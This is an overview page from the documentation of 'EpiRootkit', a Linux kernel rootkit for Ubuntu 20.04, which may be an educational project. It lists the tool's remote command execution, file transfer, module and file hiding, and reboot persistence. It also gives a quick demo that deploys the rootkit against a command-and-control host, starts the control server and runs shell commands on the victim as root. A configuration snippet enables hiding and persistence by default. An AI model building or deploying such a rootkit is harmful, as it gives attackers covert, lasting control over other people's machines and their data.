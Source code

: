 ```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 501
---
```




## Features

- **C2 Communication**: TCP connection with domain support and XOR encryption
- **DNS Resolution**: Kernel-space domain name resolution
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **XOR Encryption**: 32-byte key encryption for all C2 traffic
- **Sysfs Interface**: Linux-native configuration using octal permission system
- **Stealth**: Hide module from `lsmod` and files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots

## Quick Demo

```bash
# 1. Build and deploy with XOR encryption enabled
cd rootkit && make
sudo ./deploy_rootkit.sh address=c2.example.com port=443

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use rootkit (all communication XOR encrypted)
auth Client-1 password
# SUCCESS: Authentication successful

exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Module Hidden: YES, Encryption: XOR

# 4. Configure via sysfs (octal permissions style)
sudo sh -c 'echo 7 > /sys/kernel/epirootkit/hide'  # Enable all hiding
cat /sys/kernel/epirootkit/hide                     # Check: 7
```

## Architecture

### Core Components
- **Network Layer**: Connection management and DNS resolution
- **Command System**: Authentication and remote execution
- **Stealth Features**: Module and file hiding
- **Persistence**: Boot survival mechanisms

### Communication Flow
```
C2 Server  ←→  Network/DNS  ←→  EpiRootkit  ←→  Linux Kernel
(Node.js)      (TCP/UDP)       (Module)        (System Calls)
```

## Technical Stack

- **Target**: Ubuntu 20.04 LTS, kernel 5.4.0, x86_64
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs**: ftrace, kretprobe, VFS, UDP sockets
- **Network**: TCP (C2) + UDP (DNS resolution)
- **Encryption**: XOR cipher with 32-byte hardcoded key
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)

## Configuration

Edit `rootkit/core/config.h`:
```c
#define C2_SERVER_ADDRESS "c2.example.com"  // Domain or IP
#define C2_SERVER_PORT 4444
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_MODULE_HIDING 1     // Hide by default
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Documentation

- **[Deployment](./deployment.md)**: Build and load with domain support
- **[Connection](./connection-authentication.md)**: Network communication and XOR encryption
- **[XOR Encryption](./features/encryption.md)**: XOR encryption implementation
- **[DNS Resolution](./features/dns-resolution.md)**: Domain name resolution
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms


